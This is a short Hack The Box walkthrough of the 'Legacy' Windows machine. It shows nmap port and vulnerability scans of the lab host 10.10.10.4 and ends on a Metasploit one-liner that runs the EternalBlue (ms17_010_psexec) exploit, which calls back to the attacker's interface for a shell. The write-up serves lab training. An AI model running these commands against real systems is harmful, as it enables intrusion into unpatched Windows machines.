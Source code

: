 ```yaml
---
title: "Legacy - HTB"
categories: [HackTheBox,Easy]
tags: [HTB,Easy,Windows,EternalBlue,SMB,Metasploit]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Legacy.png
---
```


This is a box Windows easy, where is possible to explore the vuln EternalBlue.

**Have a good time!**


# Introdution

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

* **IP:** 10.10.10.4

## Diagram

```mermaid
graph TD
	Enumeration --> SMB --> Exploration --> |EternalBlue| A((ROOT))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.4 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled.png)

Two vulnerability was found related to **EternalBlue**.

```bash
sudo nmap -sS --script=vuln -p 135,139,445 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled%201.png)

# Exploration

## Exploring EternalBlue

We’ll use one of metasploit exploits.

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set rhosts 10.10.10.4; set lhost tun0; set lport 443; run"
```
